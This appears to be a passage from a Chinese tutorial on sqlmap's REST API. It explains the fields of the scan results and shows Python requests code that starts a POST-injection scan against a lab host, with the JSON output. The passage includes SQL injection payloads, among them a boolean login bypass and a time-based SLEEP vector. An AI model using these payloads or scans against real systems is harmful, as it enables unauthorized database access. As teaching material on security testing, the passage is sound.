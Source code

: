 可能您会被最后返回的结果好奇，ptype、suffix、clause等等都是什么意思呢？下面我给出部分字段的含义：

| 字段            |  含义                                          | 值                                                                                                                                                                                                         |
| ------------- | -------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| dbms          | 数据库类型                                        | Microsoft AccessIBM DB2FirebirdSAP MaxDBMicrosoft SQL ServerMySQLOraclePostgreSQLSQLiteSybaseHSQLDBH2Informix                                                                                             |
| suffix        | 在有些时候，需要在注入的payload的后面加一些字符，来保证payload的正常执行。 | GENERIC\_SQL\_COMMENT] AND (\[RANDNUM]=\[RANDNUM] AND ((\[RANDNUM]=\[RANDNUM] AND (((\[RANDNUM]=...太多了，具体可查看xml/boundaries.xml文件。                                                                         |
| prefix        | 在有些时候，需要在注入的payload的前面加一些字符，来保证payload的正常执行。 |  )')'"...太多了，具体可查看xml/boundaries.xml文件。                                                                                                                                                                   |
| clause        | payload在哪个语句里生效                              | 0: "Always",1: "WHERE",2: "GROUP BY",3: "ORDER BY",4: "LIMIT",5: "OFFSET",6: "TOP",7: "Table name",8: "Column name",9: "Pre-WHERE (non-query)"                                                            |
| where         | 以什么样的方式将我们的payload添加进去                       | ORIGINAL = 1NEGATIVE = 2REPLACE = 3                                                                                                                                                                       |
| ptype         | parameter type；注入点的类型                        | <p>1: "Unescaped numeric",<br>2: "Single quoted string",<br>3: "LIKE single quoted string",<br>4: "Double quoted string",<br>5: "LIKE double quoted string", <br>6: "Identifier (e.g. column name)", </p> |
| dbms\_version | 数据库的粗略版本                                     |  >= 5.5>= 5.0.12...                                                                                                                                                                                       |
| place         | 请求方式                                         | GETPOST(custom) HEADER                                                                                                                                                                                    |
|  title        | 当前测试Payload的标题，通过标题就可以了解当前的注入手法与测试的数据库类型。    | AND boolean-based blind - WHERE or HAVING clause...                                                                                                                                                       |
| vector        | payload向量                                    | AND (SELECT \* FROM (SELECT(SLEEP(\[SLEEPTIME]-(IF(\[INFERENCE],0,\[SLEEPTIME])))))\[RANDSTR])...                                                                                                         |
| payload       | 有效负荷,进行测试的SQL语句                              | <p>1、news_id=1 AND 6788=6788<br>2、login_user=1&#x26;login_password=-3814' OR 7117=7117#&#x26;mysubmit=Login </p>                                                                                          |
| parameter     | 哪个参数可以注入                                     | usernamenews\_id....                                                                                                                                                                                      |

#### 检测POST注入、COOKIE、UA等注入 <a href="#h3-25" id="h3-25"></a>

检测POST注入和检测GET注入类似，但是还是有一定区别的，与GET注入检测区别如下，流程上是一样的，不同的是开启扫描任务的时候，多提交一个data字段。

```
requests.post('http://127.0.0.1:8775/scan/cb9c4b4e4f1996b5/start', data=json.dumps({'url':'http://192.168.1.104/sql/sql/post.php','data':'keyword=1'}), headers={'Content-Type':'application/json'})
```

下面是一次完整的POST注入检测过程

![深入了解sqlmap\_api](https://image.3001.net/images/20190529/1559139385\_5cee943922633.png!small)

具体输入输出代码如下：

```
>>> r = requests.get("http://127.0.0.1:8775/task/new")
>>> r.json()
{'taskid': 'cb9c4b4e4f1996b5', 'success': True}
>>> r = requests.post('http://127.0.0.1:8775/scan/cb9c4b4e4f1996b5/start', data=json.dumps({'url':'http://192.168.1.104/sql/sql/post.php','data':'keyword=1'}), headers={'Content-Type':'application/json'})
>>> r.json()
{'engineid': 9682, 'success': True}
>>> r = requests.get("http://127.0.0.1:8775/scan/cb9c4b4e4f1996b5/status")
>>> r.json()
{'status': 'terminated', 'returncode': 0, 'success': True}
>>> r = requests.get("http://127.0.0.1:8775/scan/cb9c4b4e4f1996b5/data")
>>> r.json()
{'data': [{'status': 1, 'type': 0, 'value': {'url': 'http://192.168.1.104:80/sql/sql/post.php', 'query': None, 'data': 'keyword=1'}}, {'status': 1, 'type': 1, 'value': [{'dbms': 'MySQL', 'suffix': '', 'clause': [1, 8, 9], 'notes': [], 'ptype': 1, 'dbms_version': ['>= 5.0.12'], 'prefix': '', 'place': 'POST', 'os': None, 'conf': {'code': None, 'string': 'Title=FiveAourThe??', 'notString': None, 'titles': None, 'regexp': None, 'textOnly': None, 'optimize': None}, 'parameter': 'keyword', 'data': {'1': {'comment': '', 'matchRatio': 0.863, 'trueCode': 200, 'title': 'AND boolean-based blind - WHERE or HAVING clause', 'templatePayload': None, 'vector': 'AND [INFERENCE]', 'falseCode': 200, 'where': 1, 'payload': 'keyword=1 AND 3424=3424'}...], 'success': True, 'error': []}
```
